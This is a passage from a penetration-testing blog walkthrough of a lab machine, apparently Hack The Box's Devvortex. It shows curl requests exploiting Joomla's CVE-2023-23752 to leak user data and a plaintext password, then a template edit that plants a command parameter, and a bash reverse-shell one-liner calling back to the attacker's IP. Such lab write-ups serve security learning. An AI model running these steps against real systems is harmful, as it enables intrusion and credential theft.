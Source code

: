 ```bash
curl http://dev.devvortex.htb/api/index.php/v1/users?public=true | jq

curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true| jq
```

![Exploit of CVE-2023-23752 successful - user IDs](/Pen-testing-blog/assets/images/1__Tha8rbei865gXmhHZYyazA.png "Figure 12 - Exploit of CVE-2023-23752 successful - returned user IDs")

![Exploit of CVE-2023-23752 successful - user IDs](/Pen-testing-blog/assets/images/1__Tha8rbei865gXmhHZYyazA.png "Figure 13 - Exploit of CVE-2023-23752 successful - returned user IDs")

The exploit was successful and revealed two users — lewis and logan with lewis having elevated access privileges as a super user along with the plaintext password for lewis.

### Logging into the Jooma! administration interface

I used the new credentials to attempt to login into the Jooma! administrator interface as Lewis and was successful.

![Successful login to Joomla administration interface](/Pen-testing-blog/assets/images/1__UxH7PAtkPYwl5GJX9tW1wQ.png "Figure 14 - Successful login to Joomla! administration page")

### Establishing reverse shell connection via template modification

After logging into the administrative page, I create a reverse shell connection from victim machine to my attacking machine via template modification, although creation of a malicious plugin containing payload is also possible.

I use the template **Cassiopeia** and edit the **error.php** script at **<http://dev.devvortex.htb/templates/cassiopeia/error.php>** I use the global variable, **$\_REQUEST**, to pass in the parameter, cmd, that takes a value which the web server will parse as a command for execution. Here, the value passed to the cmd parameter is the command to create a reverse shell via bash script using -i flag for interactive mode.

![Command to create a reverse shell to my machine](/Pen-testing-blog/assets/images/1__LX2qdQ74EdYNCy1Z5oPo3Q.png "Figure 15 - Injection of malicious reverse shell payload into PHP script")

```bash
cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.36/4444 0>%261"
```

In my Kali Linux terminal, I set up my net cat listener to listen for connections on port 4444 to match the reverse shell one line command configuration (although any open port can be used). Upon visiting **error.php** page at the above URL and passing in the malicious command above as the cmd parameter value, I successfully catch a reverse shell in net cat. To make the shell more interactive and enhance its functionality, I stabilize it by using Python pty module to give me a pseudo-TTY after which I generate a bash shell on top of the reverse shell connection.

![Execution of malicious payload in browser](/Pen-testing-blog/assets/images/1__pWU8JJWNCbokOagLmu7JVg.png "Figure 16 - Execution of malicious reverse shell payload in the browser")

![Successful reverse shell connection from victim computer](/Pen-testing-blog/assets/images/CatchReverseShell.png  "Figure 17 - Successful reverse shell connection from victim computer to my Kali Linux machine")

## Step 3 — Lateral movement — www-data -> Logan

After obtaining an initial foothold on the victim's machine via compromise of the user account "lewis", I further explore the system to see if I can expand my footprint and compromise more resources on the system. As I know the backend database is MySQL, I start there.
